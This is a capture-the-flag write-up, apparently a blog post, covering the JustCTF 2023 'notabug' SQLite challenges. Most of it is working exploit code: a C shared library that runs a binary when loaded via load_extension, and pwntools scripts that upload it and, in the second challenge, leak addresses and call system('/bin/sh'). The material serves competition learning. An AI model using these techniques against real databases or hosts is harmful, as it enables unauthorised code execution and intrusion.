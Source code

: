 ```yaml
---
title: "[JustCTF-2023] notabug"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue

r3kapig, 1st

noabug  Solvers: crazyman and n132

noabug2 Solvers: n132, KIM and debugger

# noabug

There is a new feature for sqlite that allows loading external libcs.

For this challenge, we can create a new lib so we can just load a external lib to execute arbitrary command.


exp.c:
```c
/* Add your header comment here */
#include <stdio.h>
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1

/* Insert your extension code here */

#ifdef _WIN32
__declspec(dllexport)
#endif
/* TODO: Change the entry point name so that "extension" is replaced by
** text derived from the shared library filename as follows:  Copy every
** ASCII alphabetic character from the filename after the last "/" through
** the next following ".", converting each character to lowercase, and
** discarding the first three characters if they are "lib".
*/
int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  int rc = SQLITE_OK;
  SQLITE_EXTENSION_INIT2(pApi);
  /* Insert here calls to
  **     sqlite3_create_function_v2(),
  **     sqlite3_create_collation_v2(),
  **     sqlite3_create_module_v2(), and/or
  **     sqlite3_vfs_register()
  ** to register the new features that your extension adds.
  */
  return rc;
}
void exp()
{
    execve("/tmp/readflag",0,0);
}
//select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');
//select Load_extension('/jailed/readflag','_start');
//select cast("\x01\x02\x03\x04" as text) ;
```

exp.py
```py
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# p=process('./pwn')
import binascii
p = remote("0.0.0.0",13337)
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)
sla(b"> ",b"CREATE TABLE images(name TEXT, type TEXT, img BLOB);")
with open("./exp.so",'rb') as f:
    dt = f.read()
sla(b"> ",b"INSERT INTO images(name,type,img)")
dt = binascii.hexlify(dt)

print(dt.decode())

sla(b"> ",f"VALUES('icon','jpeg',cast(x'{dt.decode()}' as text));")
sla(b"> ",b"SELECT writefile('./exp.so',img) FROM images WHERE name='icon';")
sla(b"> ",b"select Load_extension('./exp','exp');")
p.interactive()
```

The above script works for the local one but not the remote one. My teammate found another way to compile it and make it work for the remote one.


# notabug2

We can also load libc.so.6 to execute arbitrary function but the parameters are fixed.

- Use puts to leak the PIE
- Guess the heap (1/0x2000) and build a fake structure on heap by function gets
- system /bin/sh


```py
from pwn import *

context.log_level='debug'
p = remote("notabug2.nc.jctf.pro",1337)

ru         = lambda a:     p.readuntil(a)
sla     = lambda a,b:     p.sendlineafter(a,b)

sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');")
ru(": \n")
PIE = u64(p.recvn(6).ljust(8,b'\x00'))
pie_base = PIE - 0x1589a0
heap = 0x00005555556b0000-0x0000555555554000+pie_base # 1/0x2000
system_plt = pie_base + 0x10910

if pie_base > 0x600000000000:
    p.close()

warning(hex(pie_base))
sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','gets');")
p.sendline(p64(heap+0x11eb0)+b'a'*0x8+p64(pie_base+0x000000000009e0ad))
# raw_input()
dt = b"/bin/sh\0"+flat([0]*8)+ flat([0]*8)+ p64(system_plt)
sla(b"lite> ",f"select cast(x'{dt.hex()}' as text), ".encode()+b"Load_extension('"+p64(system_plt)[:6]+b"','/bin/sh');")
p.sendline(b"echo n132")
data = p.read(timeout=1)

if b'n132' in data:
    p.sendline("/jailed/readflag")
    p.read()
    input()
    p.interactive()
else:
    p.close()
```

# Epilogue

- Learned something about sqlite, pwning a complex binary.
- Practice some skills learned from bash-revenge
- Practice Beapoverflow